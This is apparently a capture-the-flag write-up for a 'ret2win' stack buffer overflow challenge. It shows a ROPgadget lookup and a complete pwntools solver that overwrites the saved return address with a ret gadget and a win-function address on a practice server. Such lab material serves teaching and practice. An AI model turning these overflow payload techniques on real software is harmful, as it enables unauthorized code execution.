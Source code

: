 ```yaml
---
description: Binary Exploitation
---
```


# ret2win

> _Buffer overflow di stack bisa kita gunakan untuk overwrite saved RIP. Kita bisa overwrite dengan alamat fungsi win untuk menjalankannya._
>
> _Author: zran_

{% file src="../../.gitbook/assets/ret2win1.zip" %}

Simple buffer overflow challenge, but the only roadblock for me was _stack alignment_ on the remote so i learned how to use ROPgadget to find a simple ret gadget to solve this.

```
$ ROPgadget --binary ret2win | grep 'ret'
...
0x000000000040118f : nop ; ret
...
```

This was the solver script:

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template ret2win --host playground.tcp1p.team --port 19000
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF(args.EXE or 'ret2win')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141 EXE=/tmp/executable
host = args.HOST or 'playground.tcp1p.team'
port = int(args.PORT or 19000)


def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:      Partial RELRO
# Stack:      No canary found
# NX:         NX enabled
# PIE:        No PIE (0x400000)
# SHSTK:      Enabled
# IBT:        Enabled
# Stripped:   No

io = start()

ret = p64(0x40118f)
win = p64(0x401216)

payload = b'A' * 120
payload += ret
payload += win
log.info(payload)

log.info(io.clean())
io.sendline(payload)
log.info(io.clean())
io.interactive()
```

<figure><img src="../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>
